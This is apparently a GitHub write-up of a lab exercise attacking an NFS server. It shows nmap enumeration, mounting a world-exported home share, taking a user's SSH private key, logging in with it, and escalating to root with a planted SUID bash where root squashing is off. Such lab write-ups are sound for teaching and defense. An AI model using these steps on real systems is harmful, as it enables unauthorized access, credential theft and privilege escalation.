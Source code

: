 # NFS

![Pasted image 20240919160551](https://github.com/user-attachments/assets/282a5c8a-2c4f-463d-a591-2011b4c8ca87)

NFS stands for "Network File System". It’s a protocol that allows users to access files over a network in a way that’s similar to accessing local storage. With NFS, systems can share files and directories seamlessly, making it easier for users and applications to access remote data as if it were on their local machine.

Here’s a simplified overview of the process when a request is made:

1. **Client Request:** This request includes details such as the file path and the desired operation.
2. **RPC Mechanism:** The client’s request is encapsulated in an RPC message and sent over the network to the NFS server.
3. **Server Processing:** Upon receiving the request, the NFS server processes it.
4. **Response to Client:** This response could include the requested file data, confirmation of a write operation, or an error message if something went wrong.

### Scope:

In the exercise, I will be performing enumeration on a target host that has the NFS service running. Based on the information gather from the enumeration, I will attempt to mount a share from the NFS server and see what sensitive information or misconfiguration can be exploited. 

### Tools and Technology:

Nmap, Linux, NFS, and Wireshark

## Enumeration:

To get started, I wanted to get more information on the target host. To do this I used nmap:

```
nmap  -A 10.10.191.163 -T5 -p- -nnvvvv
```

![Pasted image 20240920095232](https://github.com/user-attachments/assets/22ec02c8-876d-4dea-b274-bf6858953df5)

Based on the output, I can see that both TCP/UDP port 2049 is open related to the NFS service among others. 

One of the features that Nmap has is the use of NSE scripts. In this case, these are the scripts available concerning NFS:

![Pasted image 20240919163929](https://github.com/user-attachments/assets/6145205e-e2e4-43a8-898f-b8b4f65cd51e)

I went ahead and used the scripts to see what other information I am able to gather on the target:

```
nmap --script nfs-* 10.10.191.163  -T4  -nnvvvv
```

![Pasted image 20240920095032](https://github.com/user-attachments/assets/cc3ab798-f03e-4738-a7df-f2615cb8bbf3)

This output provided more details information including the NFS stats. Next, I use the `showmount` command below. This `showmount` command displays information about NFS shares on the server. It also shows which file systems are exported by the NFS server and which clients have access to them.

```
/usr/sbin/showmount -e 10.10.191.163
```

![Pasted image 20240920095126](https://github.com/user-attachments/assets/3bd751c4-543f-4afa-8f9c-b7555582d7a6)

This output is important to note. The `*`  means that the NFS server allows any machine on the network to mount that directory without restrictions. 

## Portmap Traffic:

![Pasted image 20240920100456](https://github.com/user-attachments/assets/fb5a1d25-94f8-4d74-abf2-cfd1e4700cec)

NFS relies on RPC for communication between the client and server. Each NFS service runs on a specific port, but the port numbers can vary. This is where portmap comes in. When an NFS client wants to connect to the NFS server, it first sends a request to portmap on the server to find out which port number corresponds to the NFS service. Below is an example of portmap and how it looks in the network traffic:

![Pasted image 20240920095904](https://github.com/user-attachments/assets/1cedc99e-9313-4c80-8874-7941f024bbfc)

Since the directory output above shows that any machine on the network to mount that directory without restrictions, I went ahead and mounted the share to my local machine. To do this, I first needed to create a directory where the share will be mounted:

```
mkdir /tmp/mount
```

Now that I created the directory, I proceeded to mount the share:

```
sudo mount -t nfs 10.10.191.163:home /tmp/mount/ -nolock
```

Breaking this down: 
+ mount : Execute the mount command
+ -t nfs : Type of device to mount, then specifying that it's NFS
+ IP:share :  	The IP Address of the NFS server, and the name of the share we wish to mount
+ -nolock: Spcifies not to use NLM locking

<!--![Pasted image 20240920100041](https://github.com/user-attachments/assets/28ff5c7b-5a64-478a-a225-b1fa4ad3a013)-->

When a client needs to mount a file system from the server, the client will need to obtain a file handle from the server. The file handle must correspond to the file system. This process requires that several transactions occur between the client and the server. Here, my host is attempting to mount /home/ from the server 10.10.191.163. Here is a view of this process in Wireshark:

![Pasted image 20240920100127](https://github.com/user-attachments/assets/38cf5180-6b0d-44c0-a2aa-c23071c959f4)

Once the share was mounted, I navigated to it and listed what was inside

```
cd /tmp/mount
ls -l
```

![Pasted image 20240920102239](https://github.com/user-attachments/assets/7b843650-b8c8-433b-a928-bac9a125524c)

I see there is a cappucino directory:

```
cd cappucino
```

![Pasted image 20240920102820](https://github.com/user-attachments/assets/74fbfa43-46b7-4188-bf5f-f922bdf7f85b)

Inside I saw there was an SSH directory:

```
cd .ssh
```

![Pasted image 20240920102756](https://github.com/user-attachments/assets/b7a118aa-47a3-4172-9b77-be15bd2bdc0f)

Looking at the contents of the id_rsa key with "nano" command:

![Pasted image 20240920103035](https://github.com/user-attachments/assets/b9145623-b73f-4497-ae92-0c423a84663e)

Looking at the content of the authorized_keys with the "cat" command:

![Pasted image 20240920103610](https://github.com/user-attachments/assets/98b5707e-53b5-4c78-bd2b-c18a7ccbf55a)

I copied the private key to my local system and changed the permissions with chmod 600 file_name:

```
ls -lhr id_rsa
```

![Pasted image 20240920103435](https://github.com/user-attachments/assets/c303846c-78d8-4846-bf2b-19d7aaaab3f0)

Now that I have the private key, I attempted to login to the server via SSH:

```
ssh -i id_rsa cappucino@10.10.191.163
```

![Pasted image 20240920104035](https://github.com/user-attachments/assets/b7977ea7-3266-4b3e-8c42-85e1073015cc)

I was able to successfully login! 

## Exploiting NFS:

There are certain mechanisms that NFS has enabled by default that helps mitigate risks, one of these is called **Root Squashing**. It helps prevent the root user on a client machine from having unrestricted access to the NFS server’s file system. It’s typically enabled by default for NFS exports, but it can be turned off (which is generally not recommended). 

First, I downloaded the bash shell from the NFS server to my local system:

```
scp -i ~/id_rsa  cappucino@10.10.191.163:/bin/bash ~/Downloads/bash
```

I then changed the permissions owner to root:

```
chown root bash
```

![Pasted image 20240920105617](https://github.com/user-attachments/assets/b6472191-b3c7-44db-bf5b-96be01625229)

Copying the bash file to /tmp/mount directory 

```
cp ~/Download/bash /tmp/mount
```

I then proceeded to change the permissions and added the SUID bit using chmod:

```
chmod +s bash 
```

![Pasted image 20240920113954](https://github.com/user-attachments/assets/cf873900-dcac-4f74-94f9-8c065c02687b)

In output above I can see the I have the permissions,and I am now root! 

### Summary:

In this exercise, I was able to perform enumeration using nmap of the target host and identified the ports and services open. In this case, I focused on the NFS service. I was then able to access the NFS server and mount the share to my local host. This then provided me with the private key which I then used to login via SSH on the server. I was then able to set the SUID permissions due to misconfiguration of root squash. This ultimately allowed me to execute the SUID bit bash executable and gain root access. 

In conclusion, it's important to perform regular testing to uncover potential vulnerabilities in the NFS configuration, such as misconfigured exports, lack of proper authentication, or inadequate permissions, which can be exploited by attackers.
